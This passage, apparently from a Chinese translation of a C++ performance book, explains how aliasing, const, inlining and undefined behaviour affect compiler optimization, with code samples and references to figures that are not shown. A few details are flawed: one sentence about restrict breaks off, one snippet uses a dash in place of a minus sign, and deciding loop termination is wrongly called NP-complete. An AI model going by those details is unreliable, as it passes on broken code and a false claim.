	for (int a : v) {
		sum += g(a);
	}
	return sum;
}
```

现在让稍微修改一下这个例子:

``` {style="styleCXX"}
int g(int a);
int f(const std::vector<int>& v, const bool& b) {
	int sum = 0;
	for (int a : v) {
		if (b) sum += g(a);
	}
	return sum;
}
```

为什么要通过`const`引用传递`bool`形参呢？最常见的原因是模板。如果有一个模板函数不需要复制实参，则必须声明形参为`const T&`，这里假设`T`可以是任何类型。如果`T`推断为`bool`类型，那么现在就有了一个`const bool&`形参。这里的变化可能很小，但对优化的影响是深远的。如果还认为之前所做的优化有效，请在更大的上下文中考虑我们的示例。现在可以看到所有内容(假设编译器仍然不可见):

``` {style="styleCXX"}
bool flag = false;
int g(int a) {
	flag = a == 0;
	return –a;
}
int f(const std::vector<int>& v, const bool& b) {
	int sum = 0;
	for (int a : v) {
		if (b) sum += g(a);
	}
	return sum;
}
int main() {
	f({0, 1, 2, 3, 4}, flag);
}
```

通过调用`g()`，可以改变`b`，因为`b`是一个绑定到全局变量的引用，该全局变量也可以在`g()`中访问。在第一次迭代中，`b`为false，但是对`g()`的调用有一个副作用，`b`变为了true。如果参数按值传递，则不会发生这种情况。值在函数最开始捕获，并且不跟踪调用者的变量。但是通过引用传递，并且循环的第二次迭代不再是固定的代码。每次迭代中，必须计算条件，并且不可能进行优化。再次强调，"开发者知道的"和"编译器知道的"之间的区别是，代码中没有全局变量，或者确切地知道函数`g()`的作用。编译器不能做出这样的猜测，并且必须假设程序做了(或在将来的某个时候会做)类似于前面的例子中演示的事情，这使得优化可能不安全。

如果函数`g()`是内联的，并且编译器知道它没有修改全局变量，那么这种情况就不会发生。但不能期望所有代码都内联，因此在某些情况下，必须考虑如何帮助编译器确定它不知道的内容。当前的示例中，最简单的方法是引入一个临时变量(当然，在这个简单的示例中，可以手工进行优化，但这在更复杂的实际代码中并不实用)。为了让这个例子更真实一点，要记住函数`f()`可能来自一个模板的实例化。我们不想对未知类型的形参`b`进行复制，但知道它必须可以转换为`bool`类型，因此`bool`类型可以作为临时变量的类型:

``` {style="styleCXX"}
template <typename T>
int f(const std::vector<int>& v, const T& t) {
	const bool b = bool(t);
	int sum = 0;
	for (int a: v) {
		if (b) sum += g(a);
	}
	return sum;
}
```

编译器仍然假设函数`g()`可能会改变`t`的值。但这不再重要，条件使用了临时变量`b`，绝对不能改变，因为在函数`f()`之外不可见。当然，如果函数`g()`可以访问，并改变`f()`第二个参数的全局变量，那么转换就改变了程序的结果。通过创建这个临时变量，告诉编译器这种情况不会发生。这是编译器自己无法获得的信息。

这很容易理解，但在实践中相当困难。若已知一些东西，但编译器不可能知道，就需要以一种编译器可以使用的方式进行断言。这很难做到的原因是，我们通常不会像编译器那样思考，而且很难放弃自己知道绝对正确的假设。

这里把临时变量`b`声明为`const`了吗？这主要是为避免因意外修改而产生的错误，但这也有助于编译器。编译器能够看到没有改变`b`。与前面复杂的情况不同，编译器看到了对`b`的所有操作。然而，不能仅因为这些是可用的就确定编译器一定了解。分析程序需要时间，开发者只愿意等待编译器完成它的工作。另一方面，语法检查是必须的。如果声明变量`const`并试图修改，程序将无法编译，将不会进入优化步骤。因此，优化器可以假设`const`变量都不会改变。在可能的情况下将对象声明为`const`还有另一个原因，我们会在下一章中讨论这个问题。

若已知一些东西，可以很尝试和编译器通信。这个建议确实违背了一个通用的建议:不要创建临时变量，除非它们使程序更容易阅读------编译器会删除它们。编译器可能确实会删除它们，但会保留(并使用)它们所表达的信息。

另一个阻止编译器进行优化的常见情况是混叠的可能性。下面是一个函数初始化两个C风格字符串的例子:

``` {style="styleCXX"}
void init(char* a, char* b, size_t N) {
	for (size_t i = 0; i < N; ++i) {
		a[i] = '0';
		b[i] = '1';
	}
}
```

每次写入一个字节相当低效，有更好的方法来将所有字符初始化为相同的值。这个版本将会更快:

\
**08a_restrict.C**

``` {style="styleCXX"}
void init(char* a, char* b, size_t N) {
	std::memset(a, '0', N);
	std::memset(b, '1', N);
}
```

可以手工编写这段代码，但编译器不会做这种优化，理解其中的原因很重要。看到这个函数时，会希望它按照预期的方式使用，即初始化两个字符数组。但编译器必须考虑两个指针`a`和`b`是否指向同一个数组或者一个数组部分有重叠的可能性。以这种方式调用`init()`可能没有任何意义，这两个初始化将相互覆盖。然而，编译器只关心一个问题:如何不改变代码的行为。

同样的问题也可能发生在通过引用或指针接受多个形参的函数中。例如以下函数:

``` {style="styleCXX"}
void do_work(int& a, int& b, int& x) {
	if (x < 0) x = -x;
	a += x;
	b += x;
}
```

如果`a`、`b`和`x`绑定到同一个变量，编译器就不能做无效的优化。这就是所谓的别名:若同一个变量在代码中有两个不同的名字，则其中给一个名称即为别名。编译器必须在`a`递增后从内存中读取`x`。为什么呢？因为`a`和`x`可以指向相同的值，而编译器不能假设`x`保持不变。

如果确定不会发生混叠，该如何解决这个问题呢？C语言中，有一个关键字`restrict`，它告诉编译器一个特定的指针是访问当前函数范围内的唯一方法:

``` {style="styleCXX"}
void init(char* restrict a, char* restrict b, size_t N);
```

在`init()`函数中，编译器可以假设整个数组`a`只能通过这个指针访问，这也适用于标量变量。目前为止，`restrict`关键字还不是C++标准的一部分。即便如此，还是可以使用`restrict`，
`__restrict`、`__restrict__`)表示，并且许多编译器还支持这个特性。对于奇异值(特别是引用)，创建一个临时变量通常可以解决如下问题:

\
**09a_restrict.C**

``` {style="styleCXX"}
void do_work(int& a, int& b, int& x) {
	if (x < 0) x = -x;
	const int y = x;
	a += y;
	b += y;
}
```

编译器可能会消除临时变量(不为它分配任何内存)，但现在它保证`a`和`b`都加了相同的数量。编译器真的会进行优化吗？最简单的方法是比较汇编输出，如下所示:

\
图10.1 - x86汇编输出在优化之前(左)和之后(右)

图10.1展示了GCC为递增操作生成的x86汇编码(省略了函数调用和分支，两种情况下是相同的)。使用别名，编译器必须从内存中读取两次(mov指令)。在手动优化中，只有一次读取。

这些优化有多重要？其取决于许多因素，所以在没有进行一些测试之前，不应该着手一个消除代码中所有的别名。分析器会说明哪些部分是性能热点，那里有更多的优化机会。通过为编译器提供额外的信息，来帮助编译器的优化通常是最容易实现的(编译器已经做了最困难的工作)。

向编译器提供有关程序的难以发现信息建议的另一方面是，不必担心编译器可以很容易地找到的东西。这个问题会在不同的上下文中出现，但更常见的场景是使用函数来验证输入。在库中，有一个用于交换指针的函数:

``` {style="styleCXX"}
template <typename T>
void my_swap(T* p, T* q) {
	if (p && q) {
		using std::swap;
		swap(*p, *q);
	}
}
```

该函数接受空指针，但不对它们做任何操作。在代码中，由于某种原因，都必须检查指针，并且只有在两者都是非空的情况下才调用`my_swap()`(如果它们是空的，也许需要做一些其他的事情，所以必须检查)。忽略其他工作，调用代码看起来会像这样:

``` {style="styleCXX"}
void f(int* p, int* q) {
	if (p && q) my_swap(p, q);
}
```

C++开发者花费了过多的时间来争论冗余检查是否会影响性能。我们应该试着删除调用点的检查吗？假设不能，应该创建另一个版本的`my_swap()`，从而不测试它的输入吗？这里的关键是`my_swap()`函数是一个模板(和一个小函数)，所以肯定会内联。编译器拥有所有必要的信息来确定第二个null测试是冗余的。不是这样吗？比较两个程序的汇编输出，而不是尝试对可能的性能差异进行基准测试(在任何情况下，这个差异都是非常小的)。如果编译器生成的机器代码有冗余`if()`和没有冗余`if()`，则可以确定没有性能差异。下面是GCC在x86上生成的汇编码:

\
图10.2 - 有(左)和没有(右)冗余指针测试的汇编码

图10.2的左边是为程序生成的两个`if()`语句的代码，一个在`my_swap()`中，一个在外部。右边是`my_swap()`的特殊非测试版本的程序代码。可以看到汇编代码是完全相同的(如果能够阅读x86汇编，还会注意到在这两种情况下只有两次比较，而不是四次)。

内联在这里起着至关重要的作用。如果`my_swap()`没有内联，在函数`f()`中进行第一次测试是不错的主意，因为避免了不必要的函数调用，并允许编译器可以更好地优化，以应对其中一个指针为空的情况。`my_swap()`中的测试现在是冗余的，但编译器无会生成它，因为它不知道`my_swap()`是否在别处调用，可能没有任何输入的保证。因为第二次测试是100%可预测的(在第3章中讨论过)，所以性能差异几乎没有。

这种情况最常见的可能是操作符`delete`，C++允许删除空指针(什么都不会发生)。然而，许多开发者仍然这样写代码:

``` {style="styleCXX"}
if (p) delete p;
```

它是否会影响性能？不会。可以查看汇编输出，并说服自己，无论是否进行额外检查，都只对null进行了一次比较。

现在，已经更好地理解了编译器如何阅读程序的。那么继续了解一种更有用的技术，它可以更好地进行编译器优化。

**10.2.4将认知从运行时提升到编译时**

我们将在这里讨论的方法归结为，通过将运行时信息转换为编译时信息，为编译器提供有关程序的更多信息。下面的例子中，我们需要处理许多由*Shape*类表示的几何对象。它们存储在一个容器中(如果类型是多态的，将是一个指针容器)。该处理包括两种操作之一:缩小或放大。让我们来看看代码:

\
**06_template.C**

``` {style="styleCXX"}
enum op_t { do_shrink, do_grow };
void process(std::vector<Shape>& v, op_t op) {
	for (Shape& s : v) {
		if (op == do_shrink) s.shrink();
		else s.grow();
	}
}
```

概括地说，有一个函数，它的行为在运行时由一个或多个变量控制。通常，这些变量都是布尔型(为了便于阅读，选择了枚举)。如果配置参数`op`通过引用传递，编译器必须将比较留在循环中，并对每个形状求值。即使参数是按值传递的，许多编译器也不会将分支提升出循环。需要复制循环体(一个循环用于收缩，一个循环用于增长)，编译器担心代码过于膨胀。

更大的可执行文件需要更长的加载时间，更多的代码增加了指令缓存的压力(i-cache，用于缓存即将到来的指令，就像数据缓存即将被CPU使用一样)。但在某些情况下，这种优化是正确的选择。通常，会在不更改配置变量的情况下处理大量数据。也许这些变量在整个程序运行过程中都是不变的(只加载一次配置，然后使用)。

重写示例，将分支移出循环很容易，但如果代码很复杂，那么重构也会很复杂。如果愿意来帮助编译器，可以从编译器处得到一些帮助。其思想是将运行时值转换为编译时值:

\
**06_template.C**

``` {style="styleCXX"}
template <op_t op>
void process(std::vector<Shape>& v) {
	for (Shape& s : v) {
		if (op == do_shrink) s.shrink();
		else s.grow();
	}
}
void process(std::vector<Shape>& v, op_t op) {
	if (op == do_shrink) process<do_shrink>(v);
	else process<do_grow>(v);
}
```

整个(可能很大)旧函数`process()`转换为一个模板，除此之外，没有任何变化，没有将分支移出循环。但是，控制该分支的条件现在是一个编译时常量(模板参数)，编译器会在每个模板实例化中消除分支和相应的固定代码。在程序的其余部分，配置变量仍然是一个运行时值，只是一个不经常更改(或根本不更改)的值罢了。因此，仍然需要一个运行时测试，但它仅用于决定调用哪个实例化的模板。

这种方法可以推广。假设需要计算每个形状的一些属性，比如体积、尺寸、重量等。这都可以由一个函数完成，因为许多计算可以在不同的属性之间共享。但需要时间来计算不需要的属性，所以可以实现这样的函数:

``` {style="styleCXX"}
void measure(const std::vector<Shape>& s,
	double* length, double* width, double* depth,
	double* volume, double* weight);
```

空指针是有效的，表示不需要这个结果。在函数内部为请求值的特定组合编写最优的代码，只执行一次普通的计算。然而，这种检查是在循环中对形状进行的，这一次是一组相当复杂的条件。如果需要为同一组度量处理许多种形状，需要将条件提升到循环之外是有意义的，但编译器不太可能这样做(即使它可以)。同样，可以编写带有许多非类型形参的模板(它们将是布尔值)，如`need_length`，`need_width`等。在该模板内部，因为现在这是编译时信息，编译器将消除所有从未执行的分支。在运行时调用的函数必须根据指针是否为空，将数据调用或转发到正确的模板实例化。最有效的实现方式是查找表:

\
**07_measure.C**

``` {style="styleCXX"}
template <bool use_length, bool use_width, …>
void measure(const std::vector<Shape>& v,
double* length, … );
void measure(const std::vector<Shape>& v,
double* length, … ) {
	const int key = ((length != nullptr) << 0) |
					((width  != nullptr) << 1) |
				    ((depth  != nullptr) << 2) |
				    ((volume != nullptr) << 3) |
				    ((weight != nullptr) << 4);
	switch (key) {
		case 0x01: measure<true , false, … >(v, length, … );
		break;
		case 0x02: measure<false, true , … >(v, length, … );
		break;
		…
		default:; // Programming error, assert
	}
}
```

这将生成大量代码，测试的每个变体都是一个新函数。这样转换的效果应该通过分析来验证，但在测试相对简单的情况下(例如，许多形状都是一个立方体)，并且对许多(数百万)形状请求相同的测试集时，这种修改可以获得更可观的性能收益。

使用特定的编译器时，了解编译器的功能(包括优化)很有用。这样的详细程度超出了本书的范围，而且这是一种易变的知识------编译器发展得很快。相反，本章为理解编译器优化奠定了基础，并为读者提供了参考框架。

###  10.3.总结 {#总结-9 .unnumbered}

本章中，我们研究了C++效率的第二个主要方面:帮助编译器生成更高效的代码。

本书的目标是帮助读者理解代码、计算机和编译器之间的相互作用，以便读者们能够判断和理解编译器做出的这些决定。

帮助编译器优化代码的最简单的方法是遵循有效优化的经验规则，其中许多也是好的设计规则。尽量减少代码不同部分之间的接口和交互，将代码组织成块、函数和模块，每个模块都有简单的逻辑和定义良好的接口边界，避免全局变量和其他隐藏交互等。这些也是最佳设计实践其实并非巧合。通常，程序员容易阅读的代码，编译器会更容易分析。

更高级的优化通常需要检查编译器生成的代码。如果有注意到编译器没有做一些优化，考虑一下是否存在无效优化的情况。不要考虑程序中发生了什么，而是考虑给定代码片段中可能发生的事情(例如，可能知道自己从不使用全局变量，但编译器会假设使用全局变量)。

下一章中，我们将探索C++的一个非常微妙的领域(以及一般的软件设计)，它可能与性能研究有意想不到的重叠。

###  10.4.练习题 {#练习题-9 .unnumbered}

1.  什么限制了编译器优化？

2.  为什么函数内联对编译器优化非常重要？

3.  为什么编译器不做显而易见的优化？

4.  为什么内联是一种有效的优化？

##  第11章未定义的行为和性能 {#第11章未定义的行为和性能 .unnumbered}

本章有两个重点。一方面，解释了开发者在试图最大化代码性能时经常忽略的未定义行为的危险。另一方面，解释了如何利用未定义行为来提高性能，以及如何正确地指定和记录这种情况。与通常的"都可能发生"相比，这一章提供了一种有点不同寻常，但更相关的方式来理解未定义行为的问题。

本章将讨论以下内容:

-   理解未定义行为及其存在的原因

-   理解关于未定义行为的真相和传说

-   如何利用未定义行为

-   内存带宽和延迟

-   学习未定义行为和效率之间的联系，以及如何利用它

将了解在(别人的)代码中遇到未定义行为时，如何识别并了解未定义的行为如何与性能相关。本章还描述如何，通过有意地允许、记录，并在其周围设置保护措施，从而使用未定义行为。

###  11.1.相关准备 {#相关准备-9 .unnumbered}

和前面一样，需要一个C++编译器。本章中，我们使用GCC和Clang，其他现代C++编译器都可以。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-WritingEfficient-Programs/tree/master/Chapter11>。

还需要一种方法来检查编译器生成的汇编代码:许多开发环境都有汇编代码的选项，GCC和Clang可以写出汇编代码，而不是目标代码。调试器和其他工具，可以从目标代码生成汇编代码(对其进行反汇编)，而使用哪种工具随个人喜好即可。

###  11.2.未定义行为 {#未定义行为 .unnumbered}

未定义行为(UB)的概念有些神秘，对不了解情况的人来说，它是一种未初始化的警告。Usenet组织`comp.std.c`警告说:"*当编译器遇到(一个未定义的结构)时，可以让恶魔从你的鼻子里飞出来。*"还有，发射核导弹和阉割你的猫(即使你没有养猫)等类似言论，都是在类似的背景下提出的。本章要揭开UB的面纱，虽然最终目标是解释UB与性能之间的关系，并展示如何利用UB，但只有在能够理性地讨论这一概念时才能做到。

首先，在C++(或其他编程语言)的上下文中，UB是什么？在标准中有使用了未定义行为或格式不良的程序。标准进一步说，如果行为没有定义，则标准对结果没有任何要求。相应的情况称为UB，如下代码:

``` {style="styleCXX"}
int f(int k) {
	return k + 10;
}
```

标准规定，如果加法导致整数溢出(如果`k`大于`INT_MAX-10`)，则上述代码的结果未定义。

提到UB时，讨论倾向于两个极端，刚刚看到的第一个。夸张的语言可能是对UB危险的善意警告，但也会成为理性解释的障碍，因为鼻子和猫都不会受到编译器的攻击。编译器最终会根据程序生成一些代码，然后开发者会运行这些代码。它不会赋予计算机任何超能力:这个程序做的事情，开发者都可以自主完成，例如：用汇编程序手工编写一个相同的指令序列。如果开发者都无法执行*发射核导弹*的机器指令，那么编译器也无法做到，不论UB是否存在(当然，如果正在为导弹发射控制器编程，那就是另外一个故事了)。当程序的行为未定义时，编译器根据标准可以生成开发者不期望的代码。

虽然夸大UB的危险没什么意思，但出现了针对UB进行推理的倾向，这也是一种不祥的做法。例如以下代码:

``` {style="styleCXX"}
int k = 3;
k = k++ + k;
```

虽然C++标准已经逐步收紧了执行这类表达式的规则，但这个特定表达式的结果在C++17中仍没有定义。许多开发者低估了这种情况的危险性，会觉得"编译器要么先求k++，要么先求k+k"为了解释这里的错误和危险，必须先对标准进行分析。

C++标准有三个容易混淆的行为类别:定义的实现、未指定和未定义。实现必须提供实现定义的行为的确切规范。这不可选，符合标准的实现必须通过语言构造的行为来符合标准的描述。未指定行为与此类似，但实现没有义务记录该行为:标准通常提供可能的结果，而实现可以指定自己的结果，而不指定会是哪一个。最后，对于未定义行为，标准没有对整个程序的行为强加要求。标准没有说计算表达式`k++ + k`的几种备选方法中必须有一种发生(这将是未指定的行为，这不是标准所说的)。标准说整个程序都是病态的，并且对其结果没有任何限制(在为鼻子感到恐慌和恐惧之前，结果会限制为一些可执行代码)。

无论编译器在编译有UB代码行的时候做什么，必须以标准的方式处理代码的其余部分。因此(这个论证是这样的)，损坏仅限于特定代码行可能的结果。正如不夸大危险一样，理解这种观点为什么是错误的也很重要。编译器是基于这样的假设进行的:程序定义良好，在这种情况下(且仅在这种情况下)需要生成正确的结果。如果违背了这个假设，就没有什么先入为主的概念。描述这种情况的方法是，编译器零容忍UB。回到第一个例子:

``` {style="styleCXX"}
int f(int k) {
	return k + 10;
}
```

由于程序定义不明，`k`大到足以引起整数溢出，因此编译器可以假定这种情况永远不会发生。那真的发生了呢？如果单独编译这个函数(在一个单独的编译单元中)，编译器会生成一些代码，为所有`k <= INT_MAX-10`生成正确的结果。如果在编译器和链接器中没有整个程序的转换，那么对于更大的`k`，同样的代码可能会执行，结果与硬件在这种情况下所做事情一样。编译器可以插入对`k`的检查，也可能不会(但在某些编译器选项中可能会)。

如果函数是更大的编译单元的一部分呢？这就是有趣的地方了。编译器现在知道`f()`函数的输入参数是受限制的，那么这些信息就可以用于优化了。代码如下:

\
**01_opt.C**

``` {style="styleCXX"}
int g(int k) {
	if (k > INT_MAX-5) cout << "Large k" << endl;
	return f(k);
}
```

如果`f()`函数的定义对编译器可见，编译器可以推断出打印输出从来没有发生过。如果`k`足够大，这个程序可以打印，那么整个程序就是病态的，标准不要求它打印。如果`k`的值在某个范围内，程序将不会打印。无论哪种方式，根据标准，什么都不打印都是有效结果。请注意，仅仅因为编译器目前没有做优化，并不意味着它永远不会做，这种类型的优化在新的编译器中可能会更加激进。

那么第二个例子呢？表达式`k++ + k`的结果对于`k`的值都是未定义的。编译器可以用做什么呢？同样，编译器不需要容忍UB。这个程序能够保持良好定义的唯一方法是永远不执行这一行。编译器可以先这样假设，然后进行反向推理，从而使这段代码的函数永远不会调用。

如果认为编译器不会做那些事情，那这里有一个惊喜:

\
**02_infC**

``` {style="styleCXX"}
int i = 1;
int main() {
	cout << "Before" << endl;
	while (i) {}
	cout << "After" << endl;
}
```

这个程序的期望是打印`Before`并永远挂起。当用GCC(版本9，优化O3)编译时，行为与期望一致。当使用Clang(版本13，也是O3)编译时，会打印Before，然后After，然后立即终止，没有任何错误(不会崩溃，只是退出)。这两个结果都是有效的，因为遇到无限循环的程序的结果是未定义的(除非满足某些条件，而这里没有适用的条件)。

前面的例子对于理解为什么有UB具有指导意义。下一节中，将揭开面纱并解释UB产生的原因。

###  11.3.为什么会有未定义的行为? {#为什么会有未定义的行为 .unnumbered}

为什么标准里会提到UB？为什么没有为它指定结果？基于C++会在具有不同属性的各种硬件上使用这一事实，所产生的问题是:为什么标准不回到实现定义的行为上，去定义它呢？

上一节的最后一个示例为我们提供了一个完美的演示，以说明UB存在的理由。表示无限循环是UB，另一种说法是，标准不要求进入无限循环的程序有特定的结果(标准比这更微妙，某些形式的无限循环会导致程序挂起，但这些细节目前并不重要)。为了理解为什么会有这种规则，先来看看下面的代码:

``` {style="styleCXX"}
size_t n1 = 0, n2 = 0;
void f(size_t n) {
	for (size_t j = 0; j != n; j += 2) ++n1;
	for (size_t j = 0; j != n; j += 2) ++n2;
}
```

这两个循环是相同的，所以需要两次循环的开销(循环变量的增量和比较)。编译器显然应该通过折叠循环来进行优化:

``` {style="styleCXX"}
void f(size_t n) {
	for (size_t j = 0; j != n; j += 2) ++n1, ++n2;
}
```

这种转换只有在第一个循环结束时才有效。否则，计数`n2`根本不会增加。在编译期间，不可能知道循环是否会结束------这取决于`n`。如果`n`是奇数，循环将永远运行下去(与有符号整数溢出不同，无符号类型大小的增量超过其最大值时很好定义，该值将回滚为零)。通常，编译器不可能知道某个特定的循环最终是否会终止(这是一个已知的NP完全问题)。假定每个循环最终都会终止，并允许进行无效的优化。这些优化可以使具有无限循环的程序无效，所以这种循环会认为是UB，这意味着编译器不必保留具有无限循环的行为。

为了避免过度简化这个问题，必须指出不在C++标准中定义UB的原因。引入UB是因为语言必须在不同类型的硬件上得到支持，其中一些情况在今天看可能是过时的。因为这是一本关于程序性能的书，所以将重点关注那些为了提高效率而存在，或者可以用来改进某些优化的UB。

下一节中，将看到更多的例子，说明编译器如何使用UB来发挥它(和开发者自己)的优势。

###  11.4.未定义的行为和C++优化 {#未定义的行为和c优化 .unnumbered}

前一节中，通过假设程序中的循环最终都会结束，编译器能够优化某些循环和包含这些循环的代码。优化器使用的基本逻辑是相同的:首先，假设程序不显示UB。然后，推导出必须为真的条件，使这个假设成立，并假设这些条件确实总是为真。最后，在这种假设下有效的优化都可以进行。如果违反了假设，优化器生成的代码会什么，我们无法知道(除了已经提到的限制，仍是在同一台计算机执行一些指令)。

标准中记录的每一个UB案例都可以转换为一个可优化的示例(特定的编译器是否能利用这一点就是另一回事了)。我们再看几个例子。

之前提到的，上溢有符号整数的结果是没有定义。编译器可以假设这种情况永远不会发生，并且使用正数对有符号整数进行递增，会得到一个更大的整数。编译器真的会执行这种优化吗？让我们来找找答案。比较`f()`和`g()`这两个函数:

\
**03_int_overflow.C**

``` {style="styleCXX"}
bool f(int i) { return i + 1 > i; }
bool g(int i) { return true; }
```

定义良好的行为范围内，这些函数是相同的。可以对它们进行基准测试，以确定编译器是否会优化掉`f()`中的整个表达式。但如在前一章中看到的，有一种更可靠的方法。如果两个函数生成相同的汇编码，那么它们肯定是相同的。

{width="70%"}\
图11.1 - GCC9生成的`f()`(左)和`g()`(右)函数的x86汇编输出

图11.1中，打开优化后，GCC确实为两个函数生成了相同的代码(Clang也是如此)。汇编中出现的函数的名称是所谓的"错误名称":因为C++允许有不同参数列表的函数具有相同的名称，所以编译器必须为每个这样的函数生成一个唯一的名称，通过将所有参数的类型编码到对象代码中实际使用的名称中来进行实现。

如果想验证这段代码确实没有`?:`操作符的痕迹，最简单的方法是将`f()`函数与使用无符号整数进行相同计算的函数进行比较。参考以下代码:

\
**03_int_overflow.C**

``` {style="styleCXX"}
bool f(int i) { return i + 1 > i; }
bool h(unsigned int i) { return i + 1 > i; }
```

无符号整数的溢出有良好的定义，`i + 1`是大于`i`不总是正确。

\
图11.2 - GCC9生成的`f()`(左)和`h()`(右)函数的x86汇编输出

`h()`函数产生不同的代码，cmp指令会进行比较，不熟悉x86汇编也可以猜到。在左边，`f()`将载入常量0x1(布尔值也称为true)，并将结果放在寄存器EAX中用于返回。

这个例子还演示了试图推理UB或将其视为实现定义的危险。若程序将对整数做某种加法，当它溢出，特定的硬件将执行相应的操作，那么将得到错误的结果。编译器(有些编译器确实如此)生成的代码可能根本不需要递增指令。

现在，有了足够的知识来充分说明第2章中埋下的问题。在那一章中，我们观察到同一个函数的两个几乎相同的实现之间的性能差异。该函数的工作是一个字符一个字符地比较两个字符串，如果第一个字符串的字典序比第一个字符串大，则返回true。这是最简实现:

\
**04a_compare1.C**

``` {style="styleCXX"}
bool compare1(const char* s1, const char* s2) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0;; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
}
```

这个函数用于对字符串进行排序，因此基准测试测量了对特定输入字符串集进行排序的时间:

\
图11.3 -使用`compare1()`函数进行字符串比较的排序基准测试

比较实现非常简单，这段代码中没有什么不必要的东西。然而，令人惊讶的结果是，这是代码性能最差的版本之一。表现最好的版本几乎是一样的:

\
**04b_compare2.C**

``` {style="styleCXX"}
bool compare2(const char* s1, const char* s2) {
	if (s1 == s2) return false;
	for (int i1 = 0, i2 = 0;; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
}
```

唯一的区别是循环变量的类型:`unsigned int (compare1())`和`int (compare2())`。但索引不是负的，这应该没有任何区别，但实际的性能差异很大:

\
图11.4 - 使用`compare2()`函数进行字符串比较的排序基准测试

这种显著的性能差异的原因与UB有关。为了理解发生了什么，必须再次检查汇编码。图11.5显示了GCC为这两个函数生成的代码(只显示了最相关的部分，字符串比较循环):

\
图11.5 - 为`compare1()`(左)和`compare2()`(右)函数生成的x86汇编码

代码看起来非常相似，只有一个不同。在右边(`compare2()`)中，可以看到add指令，它用于将循环索引加1(编译器通过用一个循环变量替换两个循环变量来优化代码)。在左边，没有看起来像加法或增量的指令。取而代之的是lea指令，它表示加载和扩展地址，这里用这种方式将索引变量增加1(进行了同样的优化，只有一个循环变量)。

现在，应该能够猜到为什么编译器必须生成不同的代码。虽然开发者期望索引永远不会溢出，但是编译器不能做这样的假设。注意，两个版本都使用32位整数，但是代码是为64位机器生成的。如果一个32位的带符号int溢出，结果是未定义的，所以在这种情况下，编译器会假设溢出永远不会发生。如果操作没有溢出，则加法指令产生正确的结果。对于`unsigned int`，编译器必须考虑溢出的可能性，递增`UINT_MAX`应该得到0。但事实证明，x86-64上的add指令没有这些语义。相反，它将结果扩展为一个64位整数。x86上32位无符号整数算法的最佳选择是lea指令，它可以完成这项工作，但速度要慢得多。

这个示例演示了如何从程序定义良好且UB从未发生的假设往回推，编译器可以启用非常有效的优化，最终使整个排序操作快几倍。

既然已经理解了代码中发生的事情，就可以解释代码的其他几个版本的行为了。首先，使用64位整数，有符号的或无符号的，提供与32位有符号整数相同的性能，编译器将使用add(对于64位的无符号值，确实有正确的溢出语义)。其次，如果使用了最大索引，或者字符串长度，编译器将推断出索引不会溢出:

``` {style="styleCXX"}
bool compare1(const char* s1, const char* s2,
unsigned int len) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < len; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
```

不必要的长度比较使得这个版本比最好的版本稍微慢一些。要避免意外地遇到这个问题，最可靠的方法是始终使用有符号循环变量或硬件本地大小的无符号整数(因此，除非真的需要，否则避免在64位处理器上执行无符号整型运算)。

可以使用标准中描述为未定义行为的其他情况，构造类似的演示(尽管不能保证特定的编译器会利用可能的优化)。下面是使用指针解引用的例子:

\
**06a_null.C**

``` {style="styleCXX"}
int f(int* p) {
	++(*p);
	return p ? *p : 0; // Optimized to: return *p
}
```

这是一种常见的情况的简化，开发者编写了指针检查代码，以防止空指针，但并没有在所有地方这样做。如果输入参数是空指针，则第二行(增量)是UB，这意味着整个程序的行为未定义，因此编译器可以假设它从未发生。对汇编代码的检查表明，第三行中的比较被消除了:

\
图11.6 -带(左)和不带(右)操作符的`f()`函数生成的x86汇编码

如果先做指针检查，也会发生同样的情况:

\
**07a_null.C**

``` {style="styleCXX"}
int f(int* p) {
	if (p) ++(*p);
	return *p;
}
```

同样，对汇编代码的检查表明，指针比较已经消除了，尽管到目前为止的程序行为都定义得很好。如果指针`p`不为空，则比较是多余的，可以省略。如果`p`为空，程序的行为是未定义的，这意味着编译器可以做任何它想做的事情。这里，它想做的是忽略比较。最终结果是，无论`p`是否为空，都可以消除比较。

上一章中，我们花了大量的时间来分析哪些优化是可能的，因为编译器可以证明它们是安全的。这里，将重新讨论这个问题。首先，这对于理解编译器优化绝对有必要。其次，这与UB有关系。当编译器从一个特定的语句中推断出一些信息时(比如从`return`语句推断出的`p`是非空的)，这些信息不仅可以用于优化后面的代码，还可以用于优化前面的代码。传播这些信息的限制来自于编译器可以确定的其他信息。为了演示，稍微修改一下前面的例子:

\
**08a_null.C**

``` {style="styleCXX"}
extern void g();
int f(int* p) {
	if (p) g();
	return *p;
}
```

这种情况下，编译器不会消除指针检查，这可以在生成的汇编代码中看到:

\
图11.7 - 为`f()`函数生成的x86汇编码(左)和(右)没有指针检查

测试指令执行与null(零)的比较，后面跟着条件跳转------这就是`if`语句在汇编中的样子。

为什么编译器没有优化掉检查呢？要回答这个问题，必须弄清楚在什么条件下优化会改变程序的(良好定义的)行为。

要使优化无效，需要以下两点:

-   首先，`g()`函数必须知道指针`p`是否为空。这是可能的，例如：`p`也可以让`f()`的调用者存储在一个全局变量中。

-   其次，如果`p`为空，则不能执行`return`。这也是可能的:如果`p`为空，`g()`可能会抛出一个异常。

对于与UB密切相关的C++优化的最后一个例子，将看一些不同的东西。`const`关键字对优化的影响，这将说明为什么编译器不能成功的优化某些代码。

``` {style="styleCXX"}
bool f(int x) { return x + 1 > x; }
```

正如所看到的，优化编译器将从这个函数中删除所有代码，并将其替换为`return true`。现在让函数做更多的工作:

``` {style="styleCXX"}
void g(int y);
bool f(int x) {
	int y = x + 1;
	g(y);
	return y > x;
}
```

当然，可能会有同样的优化，代码可以重写如下:

``` {style="styleCXX"}
void g(int y);
bool f(int x) {
	g(x + 1);
	return x + 1 > x;
}
```

必须调用`g()`，但函数仍然返回true。在不陷入未定义行为的情况下，比较不会产生结果。同样，大多数编译器都会进行这种优化。以通过比较原始代码生成的汇编码，和完全手工优化的代码生成的汇编码来证实这一点:

``` {style="styleCXX"}
void g(int y);
bool f(int x) {
	g(x + 1);
	return true;
}
```

可能进行优化的原因是`g()`函数不更改其参数。同一段代码中，如果`g()`通过引用接收实参，则不再可能进行优化:

``` {style="styleCXX"}
void g(int& y);
bool f(int x) {
	int y = x + 1;
	g(y);
	return y > x;
}
```

